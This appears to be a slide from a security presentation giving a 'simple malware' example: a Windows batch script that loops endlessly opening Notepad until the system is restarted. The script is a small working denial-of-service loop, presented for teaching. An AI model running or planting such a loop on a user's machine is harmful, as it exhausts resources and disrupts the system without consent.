

# Example of a simple malware code
@echo off
:A
start notepad
goto A
Note: This very simple batch program will continually open notepad until you get a restart the system.